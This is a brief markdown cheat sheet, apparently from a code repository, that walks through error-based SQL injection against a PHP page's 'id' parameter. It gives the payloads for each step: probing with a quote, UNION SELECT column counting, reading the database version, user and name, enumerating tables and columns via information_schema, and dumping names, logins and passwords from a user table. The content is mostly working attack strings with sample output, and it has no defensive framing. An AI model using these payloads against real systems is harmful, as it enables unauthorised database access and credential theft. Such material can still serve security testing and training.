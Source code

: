 # SQLI | Error Based

Context URL: `http://example.com/example/page.php?id=agency`

To test if exists SQLI Error Based, try the:

```
http://example.com/example/page.php?id='
```

If **warnings** return to you, exploit them!

Example:

```
....php?id=agency' union select 1,2 %23
```

Note: \
1,2,3,4... you have to enter a sequence of numbers until the error stops.\
%23 = # -> to comment rest of the line

**Context example database:**\
**\*** MySQL database\
****\* 6 columns\
\* 5 numbers in the sequence (after payload)

Get database information:

```
....php?id=agency' union select 1,2,version(),user(),database() %23
```

The application returns to me in sequence:\
\> Database version, Database user, Database name

**Context results:**\
\* Database name: vehicles\


Get tables information

```
union select 1,2,table_name,4,5 from information_schema.tables where table_schema="vehicles" %23
```

**Context results:**\
\* Table names: adm, agency, mrusers

Get column information:

```
union select 1,2,column_name,4,5 from information_schema.columns where table_schema="vehicles" and table_name="mrusers" %23
```

**Context results:**\
\* Columns: name, login, password

Get final information:

```
...php?id=agency' union select 1,2,name,login,password from mrusers %23
```

